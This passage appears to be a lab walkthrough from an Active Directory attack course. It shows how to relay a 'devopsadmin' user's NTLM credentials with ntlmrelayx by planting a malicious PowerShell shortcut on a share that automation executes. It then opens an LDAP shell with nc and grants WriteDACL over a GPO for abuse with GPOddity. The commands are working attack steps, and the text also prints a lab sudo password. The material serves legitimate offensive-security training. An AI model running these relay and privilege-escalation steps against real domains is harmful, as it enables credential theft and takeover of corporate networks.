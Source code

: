 ![alt text](image-14.png)

### It turns out that the 'AI' folder is used for testing some automation that executes shortcuts (.lnk files) as the user 'devopsadmin'. Recall that we enumerated a user 'devopsadmin' has 'WriteDACL' on DevOps Policy. Let's try to abuse this using GPOddity

### First, we will use ntlmrelayx tool from Ubuntu WSL instance on the student VM to relay the credentials of the devopsadmin user.

* Use WSLToTh3Rescue! as the sudo password.

* wsluser@dcorp-studentx:/mnt/c/Users/studentx$> sudo ntlmrelayx.py -t ldaps://172.16.2.1 -wh 172.16.100.x --http-port '80,8080' -i --no-smb-server

![alt text](image-15.png)

### On the student VM, let's create a Shortcut that connects to the ntlmrelayx listener. 
### Go to C:\AD\Tools -> Right Click -> New -> Shortcut. Copy the following command in the Shortcut location:

* C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -Command "Invoke_WebRequest -Uri 'http://172.16.100.31' -UseDefaultCredentials"

![alt text](image-16.png)

![alt text](image-17.png)

**Copy shortcut to dcorp-ci**

* C:\AD\Tools>xcopy C:\AD\Tools\studentx.lnk \\\dcorp-ci\AI

### Connect to the ldap shell started on port 11000. Run the following command on a new Ubuntu WSL session

* wsluser@dcorp-studentx:/mnt/c/Users/studentx$> nc 127.0.0.1 11000

![alt text](image-18.png)

![alt text](image-19.png)

### Using this ldap shell, we will provide the studentx user, WriteDACL permissions over Devops Policy {0BF8D01C-1F62-4BDC-958C-57140B67D147}

* Get-DomainGPO | select displayname, name

![alt text](image-20.png)
